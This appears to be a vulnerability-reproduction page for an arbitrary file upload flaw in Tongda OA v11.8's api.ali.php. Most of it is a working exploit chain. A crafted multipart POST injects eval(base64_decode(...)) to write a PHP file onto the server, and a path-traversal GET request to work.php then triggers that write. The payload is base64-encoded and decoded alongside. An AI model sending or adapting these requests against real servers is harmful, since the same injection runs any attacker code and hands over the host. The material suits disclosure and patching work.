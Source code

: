 # Tongda OA v11.8 api.ali.php any file upload vulnerability

## Vulnerability Description

Tongda OA v11.8 api.ali.php has a vulnerability to upload any file. The attacker can control the server by uploading malicious files through the leak.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v11.8</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a.png)

Send request packets like api.ali.php

```python
POST /mobile/api/api.ali.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 422
Content-Type: multipart/form-data; boundary=502f67681799b07e4de6b503655f5cae
Accept-Encoding: gzip

--502f67681799b07e4de6b503655f5cae
Content-Disposition: form-data; name="file"; filename="fb6790f4.json"
Content-Type: application/octet-stream

{"modular":"AllVariable","a":"ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==","dataAnalysis":"{\"a\":\"錦',$BackData[dataAnalysis] => eval(base64_decode($BackData[a])));/*\"}"}
--502f67681799b07e4de6b503655f5cae--
```

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Parameter a base decoding</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">ZmlsZV9wdXRfY29udGVudHMoJy4uLy4uL2ZiNjc5MGY0LnBocCcsJzw/cGhwIHBocGluZm8oKTs/PicpOw==file_put_contents('../../fb6790f4.php','<?php phpinfo();?>');</span>

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630513004438-e5a73ef6-8d65-40a1-9a3c-3be30cd7d164.png)

Send GET request to write to the file

```python
/inc/package/work.php?id=../../../../../myoa/attach/approve_center/2109/%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E%3E.fb6790f4
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630513044174-8139c404-4f11-404e-be04-42d86b407bdd.png)

The request for 2109 is year and month, and the path is `/fb6790f4.php,`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630513283771-36cc86c7-a150-4834-be64-243b20938165.png)
